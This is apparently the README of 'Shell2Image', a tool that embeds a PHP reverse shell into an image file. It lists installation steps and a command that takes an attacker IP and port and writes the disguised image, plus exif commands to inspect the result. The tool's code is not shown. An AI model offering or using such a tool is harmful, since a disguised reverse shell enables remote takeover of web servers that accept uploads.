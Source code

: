 # Shell2Image
PHP Reverse Shell to Image Generator 

[+] Installation & Uses : 

==> python3 -m pip3 install -r requirements.txt

==> chmod +x Shell2Image.py

==> python3 Shell2Image.py --image="example.jpeg" -a IP address -p Port -o fuck.jpg

[+] You can check details about your Shell Images by exif tools 

>> apt install exif

>> exif fuck.jpg

[+] Made by : Ghosthub
